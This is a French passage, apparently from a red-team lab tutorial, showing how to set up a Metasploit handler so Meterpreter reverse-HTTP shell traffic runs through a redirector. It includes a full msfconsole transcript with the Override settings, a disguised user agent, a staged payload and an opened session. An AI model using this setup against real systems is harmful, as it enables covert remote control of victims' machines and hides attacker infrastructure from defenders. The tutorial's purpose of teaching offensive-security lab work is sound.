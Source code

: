 Ensuite, nous devons configurer OverrideLHOST - Cette valeur sera l'adresse IP ou le nom de domaine de votre redirecteur. Après cela, nous devons définir le OverrideLPORT ; ce sera le port sur lequel HTTP *ou  *HTTPS s'exécute, sur votre redirecteur. Enfin, nous devons définir OverrideRequestHost sur true. Cela fera répondre Meterpreter avec les informations OverrideHost, de sorte que toutes les requêtes passent par le redirecteur et non par votre serveur C2 . Maintenant que vous comprenez ce qui doit être configuré, plongeons-y :

Redirecteur Metasploit

```
root@kali$ msfconsole
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
payload => windows/meterpreter/reverse_http
msf6 exploit(multi/handler) > set LHOST 127.0.0.1
LHOST => 127.0.0.1
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > set ReverseListenerBindAddress 127.0.0.1
ReverseListenerBindAddress => 127.0.0.1
msf6 exploit(multi/handler) > set ReverseListenerBindPort 8080
ReverseListenerBindPort => 8080
msf6 exploit(multi/handler) > set OverrideLHOST 192.168.0.44
OverrideLHOST => 192.168.0.44
msf6 exploit(multi/handler) > set OverrideLPORT 80
OverrideLPORT => 80
msf6 exploit(multi/handler) > set HttpUserAgent NotMeterpreter
HttpUserAgent => NotMeterpreter
msf6 exploit(multi/handler) > set OverrideRequestHost true
OverrideRequestHost => true
msf6 exploit(multi/handler) > run
[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started HTTP reverse handler on http://127.0.0.1:8080
[*] http://127.0.0.1:8080 handling request from 127.0.0.1; (UUID: zfhp2nwt) Staging x86 payload (176220 bytes) ...
[*] Meterpreter session 3 opened (127.0.0.1:8080 -> 127.0.0.1 ) at 2022-02-11 02:09:24 -0500

```

Une fois que tout cela a été configuré, l'exécution de votre Meterpreter Reverse Shell devrait maintenant passer par proxy toutes les communications via votre redirecteur ! Pour plus de clarté, le schéma ci-dessous montre comment notre redirecteur est configuré dans notre laboratoire ; pour rappel, dans les engagements, vous voudrez utiliser plusieurs hôtes et enregistrements DNS au lieu d'adresses IP. 



*Configuration du redirecteur de laboratoire*
